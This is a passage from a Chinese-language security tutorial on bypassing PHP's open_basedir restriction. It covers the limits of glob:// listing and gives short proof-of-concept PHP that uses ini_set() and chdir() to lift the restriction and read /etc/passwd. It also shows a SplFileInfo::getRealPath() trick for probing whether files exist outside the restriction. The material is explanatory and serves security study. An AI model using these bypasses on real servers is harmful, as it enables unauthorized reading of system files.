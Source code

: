 同理，这种方法也只能列出根目录和open_basedir允许目录下的文件。
可以看到，上面三种和glob://相关的协议，最大的缺陷就是只能列目录，而且还只能列根目录和open_basedir允许目录的内容。

#### ini_set()绕过

>`ini_set()`函数：
>
>ini_set()用来设置php.ini的值，在函数执行的时候生效，脚本结束后，设置失效。无需打开php.ini文件，就能修改配置。函数用法如下:
>
>```
>ini_set ( string $varname , string $newvalue ) : string
>```
>
>- varname是需要设置的值
>- newvalue是设置成为新的值
>- 成功时返回旧的值，失败时返回 FALSE。

当前我们处在/var/www/html文件夹下，对应的POC为:

```php
<?php
mkdir('Von');  //创建一个目录Von
chdir('Von');  //切换到Von目录下
ini_set('open_basedir','..');  //把open_basedir切换到上层目录
chdir('..');  //以下这三步是把目录切换到根目录
chdir('..');
chdir('..');
ini_set('open_basedir','/');  //设置open_basedir为根目录(此时相当于没有设置open_basedir)
echo file_get_contents('/etc/passwd');  //读取/etc/passwd
```

原理涉及到了PHP的底层实现，较为复杂，具体可以参考这几篇文章。

[bypass open_basedir的新方法 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/4720)

[从PHP底层看open_basedir bypass · sky's blog (skysec.top)](https://skysec.top/2019/04/12/从PHP底层看open-basedir-bypass/#poc测试)

#### 利用SplFileInfo::getRealPath()类方法绕过

`SplFileInfo`类是PHP5.1.2之后引入的一个类，提供一个对文件进行操作的接口。我们在`SplFileInfo`的构造函数中传入文件相对路径，并且调用`getRealPath()`即可获取文件的绝对路径。
这个方法有个特点：完全没有考虑open_basedir。在传入的路径为一个不存在的路径时，会返回false；在传入的路径为一个存在的路径时，会正常返回绝对路径。脚本如下:

```php
<?php
$info = new SplFileInfo('/etc/passwd');
var_dump($info->getRealPath());
?>
```

当传入的路径存在时，返回路径。

当传入的路径不存在时，返回False。

但是如果我们完全不知道路径的情况下就和暴力猜解无异了，时间花费极高。在Windows系统下可以利用`<>`来列出所需目录下的文件，有P神的POC如下:
